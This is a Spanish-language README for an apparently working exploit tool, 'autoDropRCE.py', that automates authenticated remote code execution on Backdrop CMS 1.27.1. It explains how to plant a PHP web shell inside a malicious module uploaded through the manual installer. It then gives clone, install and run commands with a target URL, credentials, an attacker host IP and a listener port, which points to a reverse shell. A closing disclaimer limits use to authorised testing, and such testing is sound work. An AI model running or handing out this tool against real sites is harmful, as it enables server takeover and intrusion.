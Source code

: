 # Backdrop CMS 1.27.1 - Automated Authenticated RCE

Este [script](<autoDropRCE.py>) permite obtener acceso de forma automatizada a la máquina víctima sobre una instalación vulnerable de **Backdrop CMS 1.27.1**. La vulnerabilidad explotada radica en la gestión de módulos, donde el atacante puede subir e instalar un módulo malicioso en el sistema.

Las opciones disponibles son las siguientes:

```ps
usage: autoDropRCE.py [-h] -t TARGET_URL -h-ip HOST_IP -u USERNAME -p PASSWORD [-l PORT]

🪂 Backdrop CMS 1.27.1 - Automated Authenticated RCE 🪂

   ej: python3 autoDropRCE.py -t http://backdrop-example.com -i 172.17.0.1 -u trr0r -p trr0r

options:
  -h, --help                   show this help message and exit
  -t, --target-url TARGET_URL  Target url Backdrop web - ej: http://backdrop-example.com
  -h-ip, --host-ip HOST_IP     Host IP - ej: 172.17.0.1
  -u, --username   USERNAME    Valid Backdrop username - ej: trr0r
  -p, --password   PASSWORD    Valid Backdrop password - ej: trr0r
   
  -l, --listen-port PORT       Listen port                                         (default = 4444)
```

___
## Descripción de la Vulnerabilidad 📜

En el gestor de contenidos **Backdrop** (**1.27.1**) un atacante puede subir módulos maliciosos al sistema. Esto se debe a una debilidad en la forma en que **Backdrop** maneja la carga de módulos a través del **instalador manual de módulos**, lo que facilita la ejecución remota de comandos (**RCE**).
### 1. Módulo Malicioso:

El atacante debe de crear un módulo `.tar` que contenga:
- Un archivo `.php` con código malicioso, como una **web shell**, que permita ejecutar comandos de manera remota (**RCE**).
- Un archivo `.info` que describa el módulo para que así sea registrado como un módulo válido para el sistema **Backdrop CMS**.
### 2. Subida del Módulo:

Para aprovechar esta vulnerabilidad, el atacante necesita autenticarse en **Backdrop CMS**. Una vez autenticado, y si tiene los permisos adecuados, podrá cargar e instalar un módulo malicioso. Este módulo, al ser instalado en el sistema, permitirá al atacante ejecutar comandos de manera remota en el servidor (RCE).

___
## Descarga 📥

Nos clonamos el repositorio de la siguiente forma:

```bash
git clone https://github.com/trr0r/autoDropRCE
cd autoDropRCE
```

Instalamos las librerías necesarias gracias a `pip3`:

```bash
pip3 install -r requirements.txt
```

___
## Uso ⚙️

Una vez que tengas los datos listos, puedes ejecutar el script con el siguiente comando:

```bash
python3 autoDropRCE.py -t http://backdrop-example.com -h-ip 172.17.0.1 -u trr0r -p trr0r
```

![Image](https://github.com/user-attachments/assets/d654ae24-a00d-46d6-9127-facdb019c326)

---
### Advertencia legal ⚠️

> [!WARNING]
Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.